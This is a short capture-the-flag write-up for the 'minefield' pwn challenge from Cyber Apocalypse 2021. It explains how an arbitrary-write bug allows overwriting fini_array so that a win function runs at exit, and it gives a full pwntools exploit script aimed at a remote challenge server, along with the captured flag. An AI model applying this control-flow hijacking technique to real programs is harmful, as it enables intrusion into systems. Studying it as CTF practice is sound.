 ```yaml
---
title: minefield
date: 2021-04-23
categories: [pwn]
tags: [cyberapocalpyse2021]
toc: false
---
```


#### Notes:
- This is a short writeup just to note how fini works and how you can overwrite fini_array to execute functions when a program exits normally
- http://beefchunk.com/documentation/sys-programming/binary_formats/elf/elf_from_the_programmers_perspective/node3.html
- The program comes with canary and nx enabled, but the mission() function lets us overwrite a value at an address by using strtoull(buff, nullptr, 0) twice
- There is a win function, so we have to overwrite a value in the fini_array with our win function, so it executes when the program terminates

#### mission():

![Snippet of mission()](/assets/img/cyberapoc/minefield/mission.png)


#### PoC:
```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template minefield
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('minefield')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x400c29
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

#io = start()
io = remote('188.166.145.178', 31295)

io.sendline('2')
# first_write
io.sendline('0x601078')
# second_write
io.sendline('0x40096b')

io.interactive()

#CHTB{d3struct0r5_m1n3f13ld} 
```